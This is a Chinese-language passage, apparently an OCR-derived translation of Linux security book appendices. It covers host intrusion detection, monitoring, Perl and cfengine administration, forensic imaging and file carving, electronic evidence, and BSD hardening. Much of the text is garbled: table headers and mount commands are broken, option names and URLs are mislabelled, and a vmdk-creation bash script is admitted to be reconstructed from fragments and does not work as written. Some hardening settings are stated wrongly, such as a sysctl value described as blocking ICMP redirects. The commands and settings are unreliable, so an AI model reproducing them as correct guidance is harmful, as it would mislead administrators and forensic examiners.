HIDS 分为两类：扫描器和校验和验证工具。前者（如 `chrootkit`）检查已知 rootkit 的迹象。如果怀疑系统被黑客攻击，运行此类扫描器是一个好主意。由于扫描器总是需要参考数据进行扫描，因此它们无法检测知名度较低的 rootkit。

在扫描器中，你可以使用诸如 AIDE、Samhain 或 Osiris 等校验和验证工具。这些工具能够计算并存储其配置中指定的所有文件的校验和和其他其它元数据。如果怀疑系统被黑客攻击，扫描器可以通过将这些存储的值与当前计算出的值进行比较，扫描出系统的修改。

由于运行模式的原因，这些工具需要主动进行配置和使用。此外，此类工具的配置和维护并非易事，因为需要对系统有深入的洞察才能进行正确设置。此外，你还需要定期更新这些工具的数据库以使其生效，并将它们存储在只读介质上。如果攻击者能够修改数据库，这些工具就无用武了。

# Rootkit（根内核）

Rootkit 是一套旨在隐藏运行进程、文件或系统数据的软件工具。攻击者安装 rootkit 以在不被发现的情况下维持对系统的进一步访问。通常，rootkit 会替换或修改如 `ps`、`ls` 或 `netstat` 等命令，或者安装一个修改操作系统的内核模块。

# 系统监控

监控节点和网络有助于评估性能。了解瓶颈所在可以让你升级相应的组件，它是提高整体性能和确保适当服务质量的关键因素。此外，彻底的监控也有助于你检测攻击，因为你可以发现异常。例如，监控互联网上行链路的吞吐量可以检测执行 DDoS 攻击的感染机器，因为带宽使用的增加将可见的。

执行监控有多种方法。首先，你可以使用各种解决方案从 `/proc` 文件系统读取性能计数器。例如，通过本地以太接口绘制网络流量，你可以从 `/proc/net/dev` 读取数据计数器，然后将这些值输入监控/图表解决方案。

# 破解 Linux：安全秘密与解决方案

然而，在每个节点上执行本地监控在大型或不断增长的环境中扩展并不良好。执行监控的第二方法是通过网络收集性能计数器数据。最广泛的方法是使用简单网络管理协议 (SNMP)，你可以在 Linux 上使用 Net-SNMP 包实现它。SNMP 的优势在于它是一个开放标准，许多厂商允许通过它查询其操作系统或设备。

一个舒适的网络监控解决方案包含三个部分：一个适当的管理/配置设施、一个数据采集代理以及所收集数据的图形化可视化。RRTTool 是一种流行的解决方案，可以将输入数据可视化为图表。你可以使用它进行自定义解决方案，许多现有项目将其用作其后端数据存储和数据可视化。

# RRTTool

RRTTool 是一个轮询数据库工具。它设计用于处理网络带宽、网络接口计数器、CPU/内存/磁盘负载等时间序列数据。数据存储在轮询数据库中，因此存储占用随时间保持不变。你可以使用 RRTTool 编写监控 shell 脚本。你甚至可以在应用程序中包含 RRTTool，因为它支持 Perl、Python 和 PHP。

## daemontools

`daemontools` 是一组用于管理 Unix 服务的工具。它的编写考虑了几个设计目标：服务的安装和卸载应该是易的；应用程序应该是移植到不同操作系统的；如果需要，服务应该可靠地重启；并且所有操作应该使用最少权限。`daemontools` 使用 `/service` 目录来存储活动服务的配置，并包含了一些用于管理状态和执行事件消息记录的工具。`daemontools` 经常受到批评，因为它与 BSD/SysV 服务管理方法不兼容，并且使用它自己的日志概念而不是 syslog，但在某些情况下，它为管理服务提供了一个很好的替代方案。

## 其他服务管理工具

一个与旧 init 系统更兼容的解决方案是 InitNG。该项目旨在创建一个下一代 init 系统（根据网站；请参见 http://www.initng.org/）。InitNG 的功能之一是允许你配置服务之间的依赖关系并让它们异步启动，这缩短了启动所需的时间。

另一种服务管理方法是 upstart，它是为 Ubuntu Linux 开发的（但当然，也可以用于其他发行版），upstart 的独特之处在于它使用事件来启动和停止服务。

## 自动化的系统管理

自动化的系统管理对于减少执行周期性任务所需的时间非常有用。两种非常流行的方法是 Perl 脚本语言和 cfengine。

## Perl 脚本语言

Perl 脚本语言无疑是实现周期性任务自动化的强大工具之一。通过使用模块，可以增强 Perl 以适应许多情况。几乎任何任务都有模块——综合 Perl 归档网络 (CPAN) 存档包含了大量的模块。表 A-5 列出了可能对日常管理工作的模块示例。

## 附录 A：管理与维护

| 模块 | 任务 |
| --- | --- |
| DBI | DBI 是 Perl 标准数据库接口模块。可以通过数据库驱动程序（如 DBD::mysql）进行增强以连接各种数据库。该模块对于自动化涉及访问数据库的任务非常有用。 |
| Net::DNS | 该模块充当 DNS 解析器。常用于对 DNS 服务器进行查询。 |
| Nmap::Scanner | 执行并多倍执行 Nmap 扫描。 |
| Net::SMTP::TLS | SMTP 客户端能够使用 Auth 和 TLS。 |
| Sys::Filesystem | 获取文件系统列表及其属性。 |
| Net::Linux | 在 Linux 系统上操作 `/etc/passwd` 和 `/etc/shadow`。 |
| Curses | 使用 curses 或 ncurses 库创建用户界面。 |
| Proc::Daemon | 将 Perl 程序作为守护进程运行。 |
| Digest::MD5 | 在 Perl 中使用 MDS 算法；例如，校验和计算。其他算法也提供模块，例如 Digest::SHA1。 |
| Logfile::Rotate | 轮换日志文件。 |
| Sys::Syslog | 将日志消息发送到本地 syslog 守护进程。 |

表 A-5 来自 CPAN 的一些实用模块

Perl 在处理字符串和正则表达式方面具有非常强大的能力。因此，你还可以自动化涉及配置文件的解析和编辑的任务。自动化复杂任务（如向 Web 服务器配置中添加虚拟主机或设置用户账户）可以节省时间并确保某种程度的质量。手动配置系统的缺点是在设置过程的单个步骤中可能会意外遗忘。

最重要的是，Perl 运行在各种平台上——从 Unix 派生版和免费操作系统到 Windows。有一些特定操作系统的模块（例如用于处理 Windows 事件日志的 Win32::EventLog）。

使用 Perl 需要了解该语言，这可以在本附录的几页内容中涵盖。该项目的网站（http://www.perl.org/）为初学 Perl 的新手提供了很多资源。

## cfengine

cfengine 代表配置引擎（configuration engine），它是一个可以通过高级策略语言配置的代理/软件机器人。这允许你构建一个系统来管理和配置大型计算机网络。该语言比 Perl 或 Shell 高得多。它将描述期望的最终结果，cfengine 能够根据其运行的操作系统自动选择合适的配置操作。特别是在异构环境中，这种方法避免了原本需要的巨大的 `if . . . then . . . else` 结构。配置可以极地简化和统一。当然，你可以在任何时间重新应用配置；当使用描述网络应如何配置的类来重装机器时，这非常有帮助。它运行在每个网络主机上，并将当前系统配置与期望配置进行对比，并相应地修改系统。cfengine 还能执行一些常见的管理任务，如设置符号链接、检查网络接口、编辑配置文件或作为 cron 守护进程系统级前端。

## 附录 B


## 黑客攻防 Linux：Linux 安全与解决方案

在那里，你将找到一些关于如何使用系统进行取证分析的基本指导。本附录绝不能代替正式培训，但它将为你提供初始的动力。

从开始，你需要两样基础物品：计算机和软件。虽然你可以使用任何计算机和简单的十六进制编辑器，但你将从恰当的选择中受益。因此，让我们先看看哪些硬件和软件会让工作变得更容易。

### 硬件：取证工作站

以下是选择硬件的一些基本指南：

- CPU：你可能可以使用过去五年购买的任何 CPU 来处理简单的案例，因此这不是问题。在进行取证检查时，你将受益于多核心系统。
- 快速 I/O：取证相关的数据集总是很大，有时是巨大的。镜像文件很大，你将导出并生成大量数据，单机很容易超过半 TB (500 GB)。使用 RAID5 来增加可靠性和读取 I/O 速度。SATAII 为单人取证系统提供了最廉、最快的 I/O，忘记 SCSI 或 FC，坚持使用 SATAII。
- 大内存：你需要内存来进行复杂的搜索、缓存数据以及运行虚拟机。对于大多数场景，你确定 2 GB 是足够的；然而，4 GB 会让变得更容易。只有当你确定自己在做什么时，才超过这个限制。我们见过许多取证实验室充满了从不使用的内存！相信我们，这种情况确实发生。
- 适应性：你不知道会在现场遇到什么。你的机器能够读取许多不同的 IO 系统和介质，并连接到各种网络。

上述指南应该让大多数读者入门。对于那些不想决定的人，这里有一个更合适的系统示例。

如果你每年只做一两次这类工作，购买这个系统将是非常昂贵的，而且可能完全过剩。

## 附录 B：Linux 取证与数据恢复

| 硬件 | 描述 |
| --- | --- |
| 机箱 | 酷 Master Mystique 632 |
| CPU | 带有硬件辅助虚拟化技术（Intel-VT 或 AMD-V）的最新 Intel 或 AMD CPU |
| 内存 (RAM) | 大于等于 2GB |
| 主板 | 基于 PCI，至少包含一个 x、一个 x4 和一个 x16 插槽，四个 PCI 插槽、千兆以太网、USB 2.0 和 IEEE 1394 |
| 磁盘 | 500GB SATAII 硬盘 |
| 控制器 | High-point Rocket RAID 2310 PCI-Express 4x |
| 光驱 | Lite-on LH-20A15 或真正多用途的（DVD+R/DVD+RW/DVD-R/DVD-RW/DVD+R9/DVD-D9/DVD-RAM/DVD-ROM/CD-RW/CD-ROM）SATA 光驱 |
| 硬盘位 | 两个 SATA 可热插拔位和两个 ATA/133 |
| 读卡器 | 多媒体内置读卡器 |
| 网络 | 2Gb 铜电以太网和 1Gb 光纤以太网 |

## 硬件：其他实用工具

一旦你的系统运行起来，还有其他硬件组件会让你受益或是必需的。如果你认真对待数字取证，这些工具应该是你标准设备的一部分。在日常的外勤工作中，你会需要它们。

| 硬件 | 描述 |
| --- | --- |
| 大容量存储接口转换器 | SATA2/ATA-133 3.5"/ATA-133 2.5" 转 USB 转换器 |
| 硬件工具 | 买一套好的螺丝刀套装，它很快就能回本，至少要包含一些梅花形（Torx）批头。如果你更倾向于这类东西，可以看看瑞士军 Cybertool 41。 |
| 相机 | 任何 400 万像素（或更高）、具有光学变焦、微距和视频拍摄功能的相机。不是“必须”的，但在现场非常方便。 |
| 线缆 | Cat 6 UTP 网线、USB A-B、USB A-miniB、Firewire 6 转 6、Firewire 6 转 4、IRDA 适配器、ipod 数据线、手机数据线。 |

## 破解 Linux 暴露：Linux 安全秘密与解决方案

| 硬件 | 描述 |
|---|---|---|
| 外部存储 | 一些 USB/Firewire/e SATA 外部硬盘。请注意，如果你不花时间查看购买用户的反馈，USB 和 Firewire 芯片组会让你疯掉的。 |
| 硬盘 | 一些 ATA 和 SATA 新硬盘（不要弄坏封条——在客户面前拆开封条总是让你看起来很专业，尽管你之后得花五分钟来格式化硬盘）。 |
| DVD 塑料袋、标签和封条 | 一些 4.7GB 和 9GB 黑色 DVD (+/- R RW)，用于正确地存储和标记证据。如果可以，尽量使用防静电袋。如果你还没准备得到位，就买防篡封密封袋。 |

## 软件：操作系统

如果你将进行计算机取证检查，Helix Knoppix 目前是一个非常棒的发行版。Helix Knoppix 适合安装在你的取证工作站上，并作为 Live CD 在目标机器上收集证据。此外我们还可以争论哪种是完成该任务的最佳发行版，但这并不是这里的重点。你要么从 Helix 中获益，要么有自己最喜欢的发行版，并能够根据需求对其进行调整，然后装上你所需的软件。

| 软件 | 描述 |
|---|---|---|
| 工作站 | 安装在硬盘上的 Helix Knoppix，带有软件 RAID 5（不是必须的但有更好）和开发工具 |
| 目标 | 一组用于 x86 及其兼容设备的 Helix Knoppix Live CD |

## 软件：工具

如果你选择了 Helix，你已经拥有了行业的基本工具。如果你还没有，这里有一份很棒的列表供你自己进行测试。

| 软件 | 描述 |
| ------|---|
| Adepto | dd 的 GUI 前端。 |
| Air | dd 的 GUI 前端。 |
| Retriever | 多媒体文件恢复器。 |
| Autopsy-Browser and Sleuth-Kit | 优秀的取证工具组合，主要关注文件系统取证层面。它能让你迅速上手。 |
| PyFlag | 由 David Collet 和 Michael Cohen 用 python 编写的取证和日志分析 GUI。 |
| Xce Diff | 好、好看的对比工具。 |
| Ethereal/Wireshark | 网络取证的必备。 |
| 2hash | 同时计算 Md5 和 sha1。碰撞拜拜（至少目前如此）。 |
| Bmap | 最后文件簇空隙提取器（仅对 Ext2 文件系统有效）。 |
| Chaos reader | 从 libcap 文件中重构 TCP 会话并提取数据。 |
| Chrootkit | Rootkit 猎手。 |
| Dcfldd | “dd”的分支，带有许多其他功能，如哈希计算、数据擦除、支持多份拷贝等。 |
| E2recover | Ext2 的删除恢复工具。 |
| Fatback | FAT 的删除恢复工具。 |
| faust.pl | ELF 文件信息提取器。 |
| Foremost | 非常的文件恢复工具（Carver）。 |
| Grepmail | 非常专门的 grep 版本。 |
| Logfind | 日志查找器。 |
| Logsh | 日志分析。 |
| Macro | 内存转储。 |
| Md5 and sha1 | 哈希计算。 |
| Rootkit | Rootkit 猎手。 |
| Scalpel | 文件恢复工具（Carver）。 |
| Wipe | 文件擦除工具。 |
| Fenris | 完整性检查。 |
| Aegir | 内存分析。 |

## 离线取证（案例 2）

在许多情况下，你无法拆解目标系统。例如，它可能带有一个板载 RAID 控制器，你不确定在实验室中是否可以使用软件对其模拟。在这种情况下，复制由 RAID 系统创建的虚拟磁盘总是安全的。最佳处理方法是在安全环境中启动，并生成取证镜像到本地驱动器，甚至通过网络生成。

| 检查清单 | 描述 |
| --- | --- |
| 使用 Helix Knoppix 启动目标系统。 | Helix Knoppix 在这些情况下是一个非常有用的工具。当它启动时，会保留目标系统。Helix 仅在 RAM 中运行，不会触碰任何分区（甚至是交换分区），并使用感知取证的挂载命令。 |
| 启动取证工作站以接收网络拷贝。 | 使用电缆将你的取证工作站连接到目标系统。在两个系统上配置网络。 |
| 通过网络执行取证镜像。 | 在目标系统上执行：`dd if=[dev-to-copy] bs=2048 nc [ip-workstation] [port]` 在取证工作站上执行：`nc -p [port] > image_file.img` |
| 验证镜像与原始介质。 | 在镜像文件和原始介质上使用 `md5sum` 或 `sha1` 来验证原始介质及其镜像。 |

## 离线分析

执行分析没有单一的方法。它取决于目标操作系统、你正在寻找什么、犯罪类型、你对攻击者的了解程度等。以下是一些基础案例。你可以只使用其中某一个（尽管这不太可能），你也可以在某一个案例/计算机上混合不同的示例。

## 离线分析（案例 1）

这是一个经典方法。你通过回环设备（loop devices）挂载取证镜像以访问内部文件。使用常用的 UNIX 命令 `find`、`grep`、`awk`、`strings`、`hexdump`，你可以搜索文件系统以检索所需数据。

你不能真的称之为“取证检查”，但嘿——这是一个入门工具包，对吧？通过这种方法，你将学到 80/20 法则（取决于引用的说法，可能是 70/30）。这条取证法则说，80% 的证据浮浮在数据集中，可以使用像这种简单的方法进行恢复。剩下的 10% 将花费双倍代价才能提取，接下来的 5% 再翻倍，以此类推……

关键在于识别每个案例中停止的黄金平衡点！

## 附录 B：Linux 取证与数据恢复

| 检查清单 | 描述 |
| --- | --- |
| 检查镜像分区表。 | 使用回环设备：`losetup /dev/[firstloopdevice]/image_file] sectors.` |
| 使用 `fdisk`、`sfdisk` 或 `parted` 查看分区表结构。 | 记得检查镜像以查看结果 |
| 在安全模式下挂载镜像。 | `-o ro,lo,nodev,user,noexec,notime,of fset=[first_partition_cylinder*512] [image_file] [mount_point]` |
| 执行文件系统分析。 | 搜索并检索分析所需的所有数据（find, grep, xstrings, hexdump），检查 rootkit 等。 |
| 搜索日志。 | 使用 leverage 寻找文件系统中每一个有趣的日志文件。 |
| 关联日志。 | 使用 lire、optussy、ADMLogger、sawmill、splunk 或你自己的工具进行日志关联。日志和 MAC 时间的关联是你应该采取的第一步，以便了解在特定时间段内给定系统中发生了什么。 |

## 离线分析（案例 2）

有时你可以发现一个未知的的文件系统、一个交换区域或休眠文件，或者你想将触角延伸到未分配簇。在这些情况下，你可以使用文件雕刻工具（file carver）来检索数据。文件雕刻工具是强大的猛兽，必须小心使用，因为如果你不智能地使用，它们很容易让你被信息淹没。

文件雕刻（File carving）是指分析一组给信息（通常是大量数据），寻找已知文件格式的头部（headers）和尾部（footnotes），以便获取位于它们之间的数据并有效地将其“雕刻”出来。这就是该名字的由来。

还有其他技术可以增强雕刻效果，你将在不久后看到该领域的大量进展；很快，雕刻将消耗与破解密码一样多的资源——走着看……但我们目前先保持简单的头部/尾部雕刻。

在某一点，你将开始开发自己的头部和尾部，但目前已有工具可以为你自动完成这些工作，并允许你检索已删除的文档，这对你正在进行的调查可能有用。

> 注意 请记住一点！并不总是需要把一切都刻出来！如果你知道你在寻找什么，并且知道那段数据在你感兴趣的文件格式中是如何存储的，那么就不要雕刻！直接适应目标格式并搜索即可！那样会快得多。

## 黑客攻防 Linux：Linux 安全秘密与解决方案

| 检查清单 | 描述 |
| --- | --- |
| 识别文件类型。 | 映射你需要的每种文件类型。 |
| 使用文件雕刻工具从文件系统和交换分区提取文件。 | 文件雕刻工具（foremost 或 scalpel）将检索它可以识别的每一个文件（根据你选择的类型）。文件不能碎片。它适用于每个文件系统和交换文件或分区。 |

```bash


#!/bin/bash

# 用于生成 vmdk 的简单脚本

# 该脚本将你的镜像转换为虚拟机

# 归所有：

# 只有在正确执行时有效

if [ $# -ne 1 ]; then

    echo "用法: create_vmdk <镜像文件>"

    exit 1

fi

FILENAME=$1

LOOPDEVICE=""

TRACKSECTORS=""

CYLINDERS=""

HEADS=""

# 寻找循环设备

for i in $(seq 0 9); do

    losetup -f --show $FILENAME 2>/dev/null

    if [ $? -eq 0 ]; then

        LOOPDEVICE=/dev/loop$i

        break

    fi

done

if [ -z "$LOOPDEVICE" ]; then

    echo "错误：没有可用循环设备"

    exit 1

fi

# 解析几何结构

fdisk -l $LOOPDEVICE 2>&1 | grep "Disk" |

# (此处由于 OCR 乱码，此处根据逻辑推断)

# TRACKSECTORS=$(echo "$1" | awk '{print $1}')

# CYLINDERS=$(echo "$1" | awk '{print $4}')

# HEADS=$(echo "$1" | awk '{print $2}')

# 写入 vmdk

echo "正在写入 $FILENAME.vmdk..."

cat << EOF > $FILENAME.vmdk

# 描述文件

version=1

CID=768058

parentCID=ffffffff

sType=monolithicFlat

# 范围描述

RW $TRACKSECTORS FLAT "$FILENAME" 0

# 磁盘基础

#DDB

adapterType="ide"

geometry.sectors="$TRACKSECTORS"

geometry.heads="$HEADS"

geometry.cylinders="$CYLINDERS"

virtualHWVersion="4"

toolsVersion="0"

EOF

echo "完成！"

```
*(注：上述脚本逻辑是根据第 597-599 页碎片化文本合成的)*

| 清清单 | 说明 |
| --- | --- |
| 使用 `fdisk`, `sfdisk` 或 `parted` 查看分区表结构。 | 记得检查镜像以查看扇区中的结果。 |
| 以只读模式挂载镜像。 | `Mount -o ro,nodev,user,noexec,notime,of,fset=[first_partition_cylinder*512] [image.file][mount_point]` |

## 电子证据的处理

有时，仅仅正确地从机器中获取法医证据是不够的。如果证据需要在法律事务中使用，那么你获取这些定罪信息必须极其谨慎，而不仅仅是关注能否获取它。这就是拥有电子证据的含义。

电子证据是一种工具，正逐渐成为我们日常生活的一部分，并在诉讼中的重要性日益增加。可以肯定，传统证据正从纸质支持文件向虚拟环境迁移，其管理流程和准入标准也正相对于传统证据发生变化。

我们假设电子证据是证明利用新技术实施犯罪的适当媒介，并将其定义为*从从电子证据或数字介质中获得的、用于证明行为真实性的信息*。由于这种新程序性工具的重要性，在法院上审查电子证据作为打击技术犯罪的手段的准入性是至关重要的。

## 立法法规

电子证据的使用已成为解决利用电子设备实施犯罪的必要要素。法律引用从电子证据的应用延伸到法律体系中存在的、类比适用法规的解释性原则，该原则允许你使用法律规定来规范特定情况或立法空白。这些法规的类比适用原则在分析与电子证据相关的立法时具有非常特殊的关联性，因为目前尚不存在此类证据的特定规范。这种解释性概念为出示此类证据的情况提供了法律解决方案。

## 电子证据的定义

不同的立法文本中没有对电子证据进行直接且明确的引用，也没有特定的排他性定义。然而，存在一些包含某种程度上引用电子证据的规范的规定。没有哪个国家在其法律法典中规定电子证据的特定定义。在所有立法中，对传统证据的引用或多或具体，涵盖了一些与电子证据有关的内容。

## 传统证据与电子证据的等效性

立法表明电子证据等同于传统证据。认为电子证据与传统证据相同，更具体地说，属于文件证据。在考虑电子证据的监管时，文件证据的监管发挥着重要作用。

## 电子证据的优缺点

你可以从异质的角度解读使用电子证据带来的优点和不便。这在“可靠性”方面是如此。一些人认为电子证据的客观性和精确性使其更加可靠，因此他们倾向于使用它；另一些人认为缺乏验证电子证据真实性的手段使其更加脆弱，因此比传统证据更不可靠，并认为其使用起来不便且影响了其准入性。

电子证据的优点之一是信息是准确、清晰、精确、真实、客观且中立的，因为它源于电子元件，而在电子元件中不存在任何形式的虚假，这与例如随时可能被反驳的证人证言相比。此外，电子证据提供了曾经无无法获得的信息，因为电子设备中包含了大量信息。

另一个优点是此类证据由于其所包含的信息而具有的完备性、可靠性和可行性。电子证据被认为是解决某些犯罪的关键，因为这是目前唯一的证明，因此被证明非常有用。收集和使用电子证据既容易又快速，存储它也不复杂。

由于对数据处理程序以及在这方面对诉讼法的解释存在无知，许多人认为建立此类证据的法律价值是困难的。这种困难源于缺乏适当且系统的监管，以及缺乏统一的法学解释。人们对这种证据的脆弱性和易被操纵性存在普遍担忧，因为它具有高度的挥发性，这是证明其真实性的缺点之一。一些人认为法官和检察官不理解技术证据，且很难解释。出于这种感觉，一些人拒绝在法庭使用它。另一个缺点是保存电子证据的困难，以及关于如何妥善存储它的信息匮乏。

其他缺点涉及缺乏法律支持和认证模型：由于法官对电子证据要求的比传统证据更多的保障，在法院上接受电子证据似乎更加困难。欧洲某些司法机构表现出的理解缺失对于正在开展的任务是不利的。此外，获取和解释电子设备提供的信息以将其转换为电子证据的过程被认为是耗时的，会产生高昂成本并阻碍其使用。

## 附录 B：Linux 取证与数据恢复

## 处理电子证据

程序标准并不包括任何规范在法院上收集、保护或出示电子证据的特定程序。通常，各国通过“类比”适用于传统证据的一般程序。

许多适用于程序的规则可以类比应用于电子证据。计算机取证科学领域的警察和私人专家没有关于在法院上获取、保护或出示电子证据的特定程序。从法律实践的角度来看，有规范刑事和民事案件中证据保护的一般程序标准，这些标准可以通过类比扩展到电子证据。目前尚未建立保护或保存电子证据的程序，每个国家将通过类比解释为传统证据确立的准则在法院上保存证据，即在大多数情况下通过文件证据和证言证据来保存。

## 电子证据进入法院准入必须满足的要求

证据的合法性是一项基本要求，另一项是对基本权利的尊重，在其中你可以经常找到关于保护个人数据和工人权利的引用。证据的可靠性连同其相关性以及在特定时刻是最佳证据，是法官在决定特定证据的准入性时会考虑的其他基本要求。

确定电子证据是否准入的其他要求是此类证据的使用、比例性和有效性。有效性被理解为证明指控事实的能力。其他法律规定证据在任何情况下都是原件而非副本。

# 附录 C

## 破解防御 Linux：Linux 安全秘密与解决方案

如果你使用的是 BSD 系列中的一个而不是 Linux 会怎样？本附录提供了伯克利软件发行版（BSD）操作系统家族中安全功能的概述。我们将首先概述主要的 BSD 项目，以及安全功能是如何集成到所有 BSD 系统中的。然后，我们将介绍针对特定 BSD 的安全增强。最后，我们将为您提供一些资源以供获取更多信息。

### BSD 项目概览

BSD 与 Linux 的相似之处在于它们都是开源的且类 UNIX 的。然而，由于：

每个 BSD 操作系统的源代码都受宽松的 BSD 许可证保护，该许可证允许开源项目和商业项目自由地修改和分发。这在安全环境中是一个优势，因为在这些环境中，公开代码修改并不理想；正由于如此，BSD 被应用于许多安全设备中。

尽管 BSD 可见于数百个操作系统和产品中，但三个主要的 BSD 项目是：

- NetBSD，成立于 1993 年 3 月（http://www.netbsd.org）
- FreeBSD，成立于 1993 年 6 月（http://www.freebsd.org）
- OpenBSD，成立于 1995 年 10 月（http://www.openbsd.org）

过去几年还出现了 DragonBSD（http://www.dragonflybsd.org），它是 FreeBSD 的一个分支，以及两个基于 FreeBSD 专注于桌面使用的项目：DesktopBSD（http://www.desktopbsd.org）和 PC-BSD（http://www.pcbsd.org）。

> 注意：本章将重点介绍 FreeBSD、OpenBSD 和 NetBSD 项目。

如图 C-1 所示的示例所示，每个 BSD 项目都提供 `cvs` 接口，方便浏览和检索代码。每段代码都可以追溯到项目存在的第一天，任何人都可以浏览任何代码的完整历史。这些 Web 存储库地址如下：

- FreeBSD http://cosweb.netbsd.org/bsdweb.cgi/
- FreeBSD http://www.freebsd.org/cgi/cosweb.cgi/
- FreeBSD http://www.openbsd.org/cgi-bin/cosweb/

图 C-1 OpenBSD cvs web 接口

### 所有 BSD 中包含的安全功能

安全始于底层，从操作系统的安装开始。BSD 安装哲学的一个例子体现在 OpenBSD 的安全目标之一：提供一个“默认安全”的安装，这样新手用户就不必一夜之间变成安全专家。FreeBSD、NetBSD 和 OpenBSD 提供的每个安装程序都提供了选择安装哪些“组”（sets）的，使得安装一个精简但功能完备的操作系统很容易。在安全领域，少即是多，因为你无法利用不存在的东西。与其进行大型安装后不得不剔除不需要的内容，不如安装极少的内容并根据需要添加你将使用的功能。

安装完成后，所有 BSD 系统都提供了上述描述的安全功能。

## 破解防御 Linux：Linux 安全秘密与解决方案

### securelevel（安全级别）

BSD 内核提供了多个安全级别，为管理员提供了一个起点，用以调整操作系统以满足特定环境的安全需求。关于每个 BSD 的 `securelevels` 及其影响的细节可以在 `init(8)` 中找到。随着 `securelevel` 的增加，内核将防止执行某些操作，例如：

- 加载或卸载内核模块
- 取消文件标志位
- 卸载文件系统
- 修改防火墙规则
- 降低安全级别

需要注意的是，任何具有单用户模式访问权限的人都可以轻松绕过 `securelevels` 提供的保护。这就是为什么在创建安全环境时，物理安全系统始终是一个重要组成部分的原因。

### 安全脚本

每个 BSD 都安装了一组安全脚本，每天运行并将结果通过电子邮件发送给超级用户。这些脚本检查可能的安全违规，包括：

- 检查密码数据库是否存在空密码以及 UID 和 GID 为 0 的情况
- 检查 .hosts 文件的变化
- 检查 UID 和 GID 权限的变化

这些检查的细节可以在 NetBSD 的 `security.conf(5)`、OpenBSD 的 `security(8)` 以及 FreeBSD 的 `periodic.conf(5)` 中找到。

### sysctl(8)

传统上，Linux 使用 `/proc` 伪文件系统来跟踪内核状态或系统当前运行的程序。`/proc` 对开放进程和内核状态提供了很好的洞察，但没有提供直接与内核交互的机制。BSD 系统现在使用 `sysctl(8)` 机制来查看并修改内核状态。

`sysctl(8)` 使用 MIB 来描述每个可查看和修改的参数。要查看所有可用的 MIB，请使用 `all` 选项并将输出通过管道交给分页器：

```
sysctl -a | more
```

利用 `write` 选项动态更改 MIB 的能力，使得指示内核在运行中的系统中立即应用安全设置变得简单。例如，许多安全设置会影响插入到 TCP/IP 网络头部中的值。你可以轻松地查看这些内容：

```
sysctl -a | grep ip
sysctl -a | grep tcp
sysctl -a | grep udp
sysctl -a | grep icmp
sysctl -a | grep arp
```

以下是一些增加对常见攻击防护的 MIB 更改示例：

- 更改 IP 头部中的 TTL 值（Nmap 在尝试识别操作系统指纹时会检查该值 http://nmap.org/osdetect.html）：
  `sysctl -w net.inet.ttl=255`
- 强制使用随机 ID 以帮助确定主机数量：
  `sysctl -w net.inet.ip.random_id=1`
- 防止可用于放大攻击的 ICMP 重定向：
  `sysctl -w net.inet.redir=1`
- 为了进一步防止 smurf 攻击，禁用发送到广播地址的 ping：
  `sysctl -w net.inet.ip.directed_broadcast=0`

## 破解防御 Linux：安全秘密与解决方案

在 FreeBSD 系统上，`blackhole (4)` 可用于提供针对 Nmap 扫描的防护：

```
sysctl -w net.inet.tcp.blackhole=2
sysctl -w net.inet.udp.blackhole=2
```

在 NetBSD 和 OpenBSD 中，`sysctl` MIB 描述在 `sysctl(8)` 中。在 FreeBSD 中，网络 MIB 按每个协议描述，例如 `tcp(4)` 和 `icmp(4)`。

### rc.conf

BSD 系统不运行级别或包含脚本的子目录结构。相反，使用单个配置文件 `/etc/rc.conf` 来确定启动的服务。此外，该文件包含启动时实施的安全设置。其中包括：

- 清空 /tmp
- 在 motd 中隐藏操作系统
- 设置安全级别
- 加载防火墙规则集

可用配置随 BSD 而异，详细信息见 FreeBSD 和 NetBSD 的 `rc.conf(5)` 以及 OpenBSD 的 `rc.conf(8)`。

### rc.subr(8)

在 NetBSD 和 FreeBSD 中，`rc(8)` 原生支持运行 `chroot(8)`；它会自动设置环境，包括在 chroot 内部创建 `/var/run/log` 套接字以便 `syslog(8)` 仍工作。`rc.subr(8)` 进一步描述了 `user`、`_group`、`groups` 和 `_chroot` 变量。

这是一个通过 `rc(8)` 框架降低权限且无 chroot 能力的自定义链接程序示例：

```
more /etc/rc.d/ircd-hybrid
#!/bin/sh
#NetBSD ircd-hybrid.sh,v 1.2 2003/08/23 10:52:50 Exp $
# PROVIDE ircdhybrid
# REQUIRE DAEMON
name="ircdhybrid"
rcvar=$name
pidfile="/usr/local/ircd/etc/ircd.pid"
command="/usr/local/ircd/bin/ircd"
command_args="> /dev/null 2>&1 &
confile="/usr/local/ircd/etc/ircd.conf"
required_files="$confile"
```

# flags(1)

在 Linux 中，`inittab(5)` 用于配置可用的 tty 数量和类型；BSD 对应的命令是 `ttys(5)`。在 BSD 中，你还可以将 tty 设置为“安全型”，这意味着它不会接受超级用户登录。将控制台（第一个 tty）设置为不安全，将在系统回退到单用户模式时需要输入超级用户密码。

# Hacking Exposed Linux: Linux 安全秘密与解决方案

```bash
ls -lo /bin/ls
-r-xr-xr-x 1 root wheel schg 23240 May
```


图 C-2 设置文件标志后查看文件属性

# sshd_config(5)

OpenSSH 内置于所有 BSD 系统的最小基础包中，这并不意外——毕竟，OpenSSH 项目是 OpenBSD 项目的一部分。OpenSSH 让你能够轻松地通过安全的加密连接远程管理系统，并并在系统之间安全地使用 `scp(1)` 和 `sftp(1)` 文件。虽然 SSH 服务器开箱即用就是安全的，但 `sshd_config` 文件允许你进一步加固其安全性。`sshd_config(5)` 提供了所有可能关键字的细节；其中一些值得关注的包括：

- `AllowUsers`：允许你列出授权连接的用户。
- `MaxAuthries`：允许你限制每个连接的身份验证次数。
- `MaxStartups`：允许你指定并发连接数。
- `PermitRootLogin`：指定是否允许超级用户通过 SSH 连接登录。
- `UsePrivilegeSeparation`：防止权限提权。

> 对此配置文件的更改在重新加载 SSH 守护进程之前不会生效。在 FreeBSD 和 NetBSD 上，你会在 `/etc/rc.d` 找到用于 `sshd` 的 `rc` 脚本。

## Blowfish 支持

所有的 BSD 系统在安装时都带有多种加密算法，包括 Blowfish 算法。Blowfish 的设计是作为其他加密算法的一种快速、无专利且免许可费的替代方案。它还被认为是一种强加密算法，且目前尚没有任何针对 Blowfish 的成功攻击。

## 附录 C: BSD

BSD 系统可以配置为在密码数据库中使用 Blowfish 哈希值。在 FreeBSD 系统上，Blowfish 哈希在 `login.conf(5)` 中已启用；在 NetBSD 和 OpenBSD 上， Blowfish 哈希在 `passwd.conf(5)` 中启用。

## 系统统计

在 BSD 中，`sa(8)` 提供了类似于 Linux `sar(1)` 命令的功能，后者是 `sysstat` 工具包的一部分。`sa(8)` 可以提供详细统计数据，例如：

- 每次执行的平均 I/O 操作数
- 进程统计，包括调用次数、经过时间、总 CPU 和平均 I/O 操作数
